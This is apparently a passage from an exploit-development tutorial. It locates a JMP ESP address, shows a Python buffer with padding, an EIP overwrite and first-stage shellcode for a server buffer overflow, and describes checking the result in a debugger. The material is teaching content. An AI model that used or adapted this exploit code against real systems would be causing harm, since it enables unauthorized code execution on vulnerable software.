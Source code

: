 We find that the address 0x08134596 contains the JMP ESP instruction

![](./img/Chapter12/18.png)

Update the script to include the address

```python
padding = "\x41" * 4368
eip = "\x96\x45\x13\x08"
first_stage = "\x83\xc0\x0c\xff\xe0\x90\x90"

buffer = "\x11(setup sound " + padding + eip + first_stage + "\x90\x00#"
```

The script: [stage2.py](./Scripts/Chapter12/stage2.py)

Set a breakpoint at the JMP ESP instruction

![](./img/Chapter12/19.png)

Run the script, the debugger stops at the JMP ESP instruction
